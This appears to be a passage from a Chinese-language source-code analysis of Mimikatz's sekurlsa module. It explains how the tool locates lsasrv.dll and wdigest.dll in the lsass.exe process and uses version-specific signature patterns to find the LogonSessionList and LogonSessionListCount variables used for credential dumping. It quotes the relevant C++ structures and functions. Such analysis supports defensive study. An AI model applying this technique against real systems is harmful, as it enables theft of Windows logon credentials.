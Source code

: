lsassPackages 数组中包含了整个 sekurlsa 模块用到的所有 lsass 包的信息，其定义如下：

```c++
const PKUHL_M_SEKURLSA_PACKAGE lsassPackages[] = {
    &kuhl_m_sekurlsa_msv_package,
    &kuhl_m_sekurlsa_tspkg_package,
    &kuhl_m_sekurlsa_wdigest_package,
#if !defined(_M_ARM64)
    &kuhl_m_sekurlsa_livessp_package,
#endif
    &kuhl_m_sekurlsa_kerberos_package,
    &kuhl_m_sekurlsa_ssp_package,
    &kuhl_m_sekurlsa_dpapi_svc_package,
    &kuhl_m_sekurlsa_credman_package,
    &kuhl_m_sekurlsa_kdcsvc_package,
    &kuhl_m_sekurlsa_cloudap_package,
};
```

通过 `kuhl_m_sekurlsa_findlibs()` 函数的循环比对，能够获取 sekurlsa 模块用到所有模块的地址，包括 lsasrv.dll 和 wdigest.dll 模块。

至此，成功获取 lsass.exe 进程中加载的 lsasrv.dll 和 wdigest.dll 模块的地址信息，`kull_m_process_getVeryBasicModuleInformations()` 函数调用结束。接下来，将通过 `kuhl_m_sekurlsa_utils_search()` 函数定位 `LogonSessionList` 和 `LogonSessionListCount` 这两个全局变量。

Get LogonSessionList Variables
------------------------------

跟进 `kuhl_m_sekurlsa_utils_search()` 函数：

- sekurlsa\\kuhl\_m\_sekurlsa\_utils.c

```c++
PLIST_ENTRY LogonSessionList = NULL;
PULONG LogonSessionListCount = NULL;

BOOL kuhl_m_sekurlsa_utils_search(PKUHL_M_SEKURLSA_CONTEXT cLsass, PKUHL_M_SEKURLSA_LIB pLib)
{
    PVOID *pLogonSessionListCount = (cLsass->osContext.BuildNumber < KULL_M_WIN_BUILD_2K3) ? NULL : ((PVOID *) &LogonSessionListCount);
    return kuhl_m_sekurlsa_utils_search_generic(cLsass, pLib, LsaSrvReferences,  ARRAYSIZE(LsaSrvReferences), (PVOID *) &LogonSessionList, pLogonSessionListCount, NULL, NULL);
}
```

这里先定义了 `LIST_ENTRY` 结构的指针变量 `LogonSessionList` 以及 `PULONG` 类型的指针变量 `LogonSessionListCount`，然后将 `cLsass`、`pLib`、`LsaSrvReferences`、`ARRAYSIZE(LsaSrvReferences)` 以及 `&LogonSessionList` 和 `pLogonSessionListCount` 传入 `kuhl_m_sekurlsa_utils_search_generic()` 函数。其中 `pLib` 为前面传入的 `&kuhl_m_sekurlsa_msv_package.Module`。`LsaSrvReferences` 是一个包含了各种系统版本的特征码的数组，每个成员都是一个 `KULL_M_PATCH_GENERIC` 结构体，其结构如下所示。

```c++
typedef struct _KULL_M_PATCH_GENERIC {
    DWORD MinBuildNumber;
    KULL_M_PATCH_PATTERN Search;     // 包含特征码
    KULL_M_PATCH_PATTERN Patch;
    KULL_M_PATCH_OFFSETS Offsets;    // 保存 LogonSessionList 和 LogonSessionListCount 偏移量值的四个字节的偏移量
} KULL_M_PATCH_GENERIC, *PKULL_M_PATCH_GENERIC;

typedef struct _KULL_M_PATCH_PATTERN {
    DWORD Length;
    BYTE *Pattern;
} KULL_M_PATCH_PATTERN, *PKULL_M_PATCH_PATTERN;
```
